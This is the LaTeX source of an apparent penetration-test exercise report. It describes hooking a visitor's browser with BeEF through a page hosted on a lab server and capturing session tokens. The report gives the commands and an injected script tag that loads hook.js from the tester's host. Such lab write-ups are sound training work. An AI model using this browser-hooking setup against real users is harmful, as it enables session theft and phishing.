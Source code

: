 \documentclass[notitlepage]{article}
\begin{document}
  
\title{Penetration Test Exercise 110}
\author{Esteban Calvo}
\date{\isodate\today}

\maketitle

\tableofcontents

\newpage

\section{Technical Report}



  \subsection{Finding: \emph{Descriptive Name}}
  	\subsubsection*{Severity Rating}
	Severity Risk: Low \\
    \cvss(L,H,L,R,U,L,N,N,2.2)
		
  	\subsubsection*{Vulnerability Description}
        Using social engineering, we know to expect a user to hit a page we are hosting. Using BeEF (Browser Exploitation Framework), we are able to capture
        the users browser and get sensitive information such as session tokens as well as use other possible social engineering attacks such as fake email login pages.

  	\subsubsection*{Confirmation method}
  	We must first create on our server with the URL \textbf{/coins/collection.html} and add a script to the page that hooks it to BeEF. This requires us to make a new directory,
    create a new page, add a script to the page, and then start or restart the apache server.
\begin{verbatim}
sudo mkdir /var/www/html/coins
sudo vim /var/www/html/coins/collection.html
In HTML:
    <script src='http://172.24.0.10:3000/hook.js'></script>
sudo service apache2 start
\end{verbatim}
    We can then navigate to the beef directory and start it up as follows:
\begin{verbatim}
./beef
xdg-open http://172.24.0.10:3000/ui/panel
\end{verbatim}
    Then, use the credentials found in the config.yaml in the beef directory to log in and wait. After some time, a new Windows user will appear and thus the attack is complete.
\end{document}
